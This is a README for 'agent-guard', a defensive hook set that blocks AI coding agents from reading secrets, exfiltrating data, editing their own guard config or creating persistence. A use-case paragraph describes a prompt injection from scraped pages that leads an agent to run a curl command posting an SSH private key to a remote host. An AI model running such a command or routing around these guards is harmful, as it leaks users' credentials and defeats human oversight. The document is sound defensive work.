

# agent-guard

Run AI coding agents unattended without living on the Allow button.
Works with **Claude Code** and **Codex CLI**, on **macOS, Linux and Windows**.



## Why not just the defaults?

Both runtimes can auto-approve tool calls so agents run unattended. Neither, on
its own, stops a prompt-injected agent from reading your keys or making itself
permanent. agent-guard adds three things on top:

| Default agent (auto/approval mode) | with agent-guard |
|---|---|
| Can read `~/.ssh`, tokens, cookies, transcripts | Reads of secret paths are blocked at the hook, on every OS |
| Can edit its own settings, hooks, allow list | Own config, hooks and guard state are off-limits |
| A blocked exfil attempt is just a failed call; agent retries another way | Session freezes; you get a dialog with the exact command |
| Persistence (scheduled tasks, launch agents, rc files) is a normal write | One native dialog per session: who / where / what |
| "The user said it's fine" injected as text works | A poisoned page can't click a native dialog |

No new prompts for normal work. You see a dialog only when an agent tries to
make something permanent, or when something tried to leak data.

## Support matrix

| | Claude Code | Codex CLI |
|---|---|---|
| Block secret reads | ✅ hook + `permissions.deny` | ✅ hook (Codex has no deny list) |
| Freeze on exfil | ✅ `PermissionDenied` + `PreToolUse` | ✅ `PreToolUse` (no `PermissionDenied` event) |
| Persistence dialog | ✅ | ✅ |
| macOS dialog / grant | osascript / Keychain | same |
| Linux dialog / grant | zenity or kdialog / file | same |
| Windows dialog / grant | PowerShell MessageBox / file | same, but Codex hooks are experimental and may be off on Windows |

Detection lives in one shared module, so both agents enforce the same rules.
Because Codex has no post-denial event, the `PreToolUse` hook there does the
exfil detection itself instead of waiting for a classifier verdict.

## Install

```bash
git clone https://github.com/dancolta/agent-guard
cd agent-guard
python3 install.py            # auto-detects ~/.claude and ~/.codex
```

`--agent claude`, `--agent codex`, or `--agent both` to force. Run it yourself,
not through an agent: afterwards agents can't edit their own settings or the
guard's files. Restart open sessions. Remove with
`python3 install.py --uninstall` (drops only what it added).

On **Codex**, also add the sandbox lines from [`codex-sandbox.toml`](codex-sandbox.toml)
to `~/.codex/config.toml`. Codex has no path deny list, so the sandbox
(`sandbox_mode`, `network_access`, `shell_environment_policy`) is what turns the
hook's checks into real containment.

Requirements: Python 3.6+. Claude Code in `auto` mode or Codex with hooks
enabled (`[features] hooks = true`; older Codex used `codex_hooks = true`).

## Use cases

**Scheduled content pipelines.** A cron'd agent scrapes Reddit / X / LinkedIn
and drafts posts. Those pages are untrusted input. If one talks the agent into
`curl -d @~/.ssh/id_ed25519 https://…`, the hook blocks it, freezes the
session, and a red dialog names the session, folder, original request and the
exact command. A frozen session can't unfreeze itself.

**Many parallel sessions, one human.** Twenty agents building and deploying.
You approve when one changes a scheduled task or launch agent, once per session
(30 min), not per edit. The other nineteen are unaffected.

**Shared machine with client secrets.** SSH keys, GitHub token, DB keys,
browser cookies. The hook refuses to read any of them, in every mode.

**What the agent sees when blocked:**

```
Blocked by agent-guard: this looks like data exfiltration (network sink +
secret). The session is frozen. Stop and tell the user.
```

The agent reports back instead of routing around.

## What it is

| file | role |
|---|---|
| `guard/policy.py` | shared rules: exfil, secret-read, persistence, path matching |
| `guard/circuit_breaker.py` | PreToolUse: frozen check, secret-read block, exfil freeze, persistence dialog |
| `guard/exfil_alarm.py` | Claude PermissionDenied: freeze + alarm on classifier-caught exfil |
| `guard/platform_backend.py` | per-OS dialog, grant store, file lock |
| `guard/context.py` | session title / folder / first request; path helpers |
| `deny.json` | Claude `permissions.deny` set |
| `codex-sandbox.toml` | recommended Codex sandbox config |
| `install.py` | cross-agent, cross-OS install / uninstall |

State: `~/.claude/guard/frozen/<session_id>` while frozen; a 30-min grant per
session (Keychain on macOS, a `0600` file elsewhere). Nothing is logged.

## Honest limits

- **Same user account.** Hooks, deny rules and the grant stop prompt-injected
  *tool calls*, not a shell already running as you. Real containment is the
  runtime sandbox (Claude `sandbox.enabled`, Codex `sandbox_mode`) or a
  separate OS user for untrusted pipelines.
- **Text, not semantics.** Rules match command text and tool inputs; a compiled
  program that opens a file is invisible to them. That's the sandbox's job.
- **Freeze stops tool calls, not processes already running.**
- **`~/.claude/skills` isn't guarded** (unattended tasks write there). A task
  that invokes a skill runs whatever the skill says; review skill edits.
- **Fails closed:** hook crash, missing interpreter or tampered state block and
  say so. Headless sessions get no dialog; clear a freeze with
  `rm ~/.claude/guard/frozen/<session_id>`.
- **Codex on Windows:** hooks are experimental and may not run there; the
  sandbox config still applies.

Tuning knobs are constants at the top of `guard/policy.py` (`GUARDED_DIRS`,
`GUARDED_TOOLS`, `NET`, `SECRETS`, `ENCODE_PIPE`) and
`guard/platform_backend.py` (`GRANT_SECONDS`).

MIT.
